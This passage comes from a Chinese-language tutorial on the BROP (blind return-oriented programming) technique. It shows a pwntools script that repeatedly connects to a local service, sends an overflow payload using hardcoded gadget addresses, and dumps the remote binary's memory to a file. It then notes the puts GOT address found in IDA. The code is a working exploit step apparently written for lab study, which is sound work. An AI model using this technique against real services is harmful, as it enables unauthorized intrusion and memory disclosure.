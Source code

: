 ```python
        try:
            p = remote("127.0.0.1", 9999)
            p.recvline("password?")
            p.sendline(payload)
            accept_str0 = p.recv(timeout=0.5)
            if 'WelCome' in accept_str0:
                num = accept_str0.find("WelCome")
                accept_str = accept_str0[:num]
            if num==0:
                p.close()
                log.info("end_addr = 0x%x",end_addr)
                return result
            if accept_str == '\n':
                accept_str1 = '\x00'
            elif accept_str[-1:] == '\n':
                accept_str1 = accept_str[:-1] + '\x00'
            else:
                accept_str1 = accept_str

            result += accept_str1
            start_addr += len(accept_str1)
            p.close()
        except:
            log.info("connect error")
    return result

if __name__ == "__main__":
    buf_size = 72
    stop_gadget = 0x400590
    useful_gadget = 0x40078a
    puts_plt = 0x400545
    dumpdata = dump_data(buf_size, stop_gadget, useful_gadget, puts_plt)
    with open("dumpdata","wb") as f:
        for x in dumpdata:
            f.write(x)
```

dump下来后，利用ida查看，得到 `puts` 的 `got`地址为0x601018

![image-20220803174224324](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220803174224324.png)
